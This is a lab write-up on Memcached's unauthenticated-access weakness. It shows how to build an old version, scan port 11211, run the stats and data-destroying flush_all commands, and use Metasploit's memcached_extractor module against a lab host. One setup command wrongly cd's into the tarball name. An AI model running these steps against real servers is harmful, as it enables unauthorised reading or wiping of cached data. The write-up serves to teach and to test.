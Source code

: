 # Unauthorized Access Vulnerability in Memcached

## Vulnerability Description

Memcached is a high-speed cache system used to store a large amount of dynamic data on the network. The unauthorized access vulnerability refers to the fact that without access control to Memcached, anyone can access and read the data stored in Memcached without authorization. This may lead to sensitive information being leaked, including user passwords, credit card information, etc.

## Environment Setup

```
wget http://memcached.org/files/old/memcached-1.4.14.tar.gz
tar -zxvf memcached-1.4.14.tar.gz
cd memcached-1.4.14.tar.gz
./configure && make && make test && sudo make install
```

Start Memcached

![image-20220726183234778](../../.gitbook/assets/image-20220726183234778.png)

## Vulnerability Exploitation

Scan port

```
[root@localhost bin]# nmap -p 11211 -sV 192.168.32.183

Starting Nmap 6.40 ( http://nmap.org ) at 2022-07-26 06:35 EDT
Nmap scan report for 192.168.32.183
Host is up (0.000052s latency).
PORT      STATE SERVICE   VERSION
11211/tcp open  memcached Memcached 1.4.14

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.32 seconds

```

Cache management commands:

The `stats` command does just what its name implies: it dumps the current stats for the connected memcached instance. In the following example, executing the stats command displays information about the current memcached instance.

![image-20220726183200063](../../.gitbook/assets/image-20220726183200063.png)

The above information displays the current traffic statistics. It serves the connection count, data stored in the cache, cache hit rate, and detailed information on memory usage and the distribution of slab allocation information used to store individual items.

The `flush_all` command. This simplest of commands is used solely to clear all name/value pairs from cache. If you need to reset the cache to a clean state.

![image-20220726183645406](../../.gitbook/assets/image-20220726183645406.png)

Statistics slabs information

![image-20220726183634264](../../.gitbook/assets/image-20220726183634264.png)

Find key using msf

```
msf6 > search memcached_extractor

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/gather/memcached_extractor                   normal  No     Memcached Extractor


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/gather/memcached_extractor

msf6 > use auxiliary/gather/memcached_extractor
msf6 auxiliary(gather/memcached_extractor) > show options

Module options (auxiliary/gather/memcached_extractor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    11211            yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(gather/memcached_extractor) > set rhosts 192.168.32.183
rhosts => 192.168.32.183
msf6 auxiliary(gather/memcached_extractor) > run

[+] 192.168.32.183:11211  - Found 0 keys
[*] 192.168.32.183:11211  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

